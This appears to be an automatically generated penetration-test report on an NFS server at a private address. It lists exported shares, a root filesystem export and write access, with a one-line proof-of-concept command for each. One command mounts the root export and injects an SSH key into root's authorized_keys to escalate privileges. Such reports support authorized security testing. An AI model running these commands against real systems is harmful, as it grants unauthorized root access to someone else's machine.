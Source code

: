 # NFS Exploit Report for 10.1.3.2:2049

Generated: 2025-09-03 21:56:39


## NFS Exports

- **Target**: 10.1.3.2:2049

- **Details**: NFS exports found

- **PoC**: `showmount -e 10.1.3.2`


## Root Filesystem Export

- **Target**: 10.1.3.2:2049

- **Details**: CRITICAL: Root filesystem exported via NFS

- **PoC**: `showmount -e 10.1.3.2`


## NFS Privilege Escalation

- **Target**: 10.1.3.2:2049

- **Details**: SSH key injection via NFS successful

- **PoC**: `mount -t nfs 10.1.3.2:/ /tmp/nfs_10_1_3_2 && mkdir -p /tmp/nfs_10_1_3_2/root/.ssh && echo 'ssh-rsa...' > /tmp/nfs_10_1_3_2/root/.ssh/authorized_keys`


## NFS Write Access

- **Target**: 10.1.3.2:2049

- **Details**: Write access to NFS export

- **PoC**: `mount -t nfs 10.1.3.2:/ /tmp/nfs_10_1_3_2 && echo 'test' > /tmp/nfs_10_1_3_2/test_write`

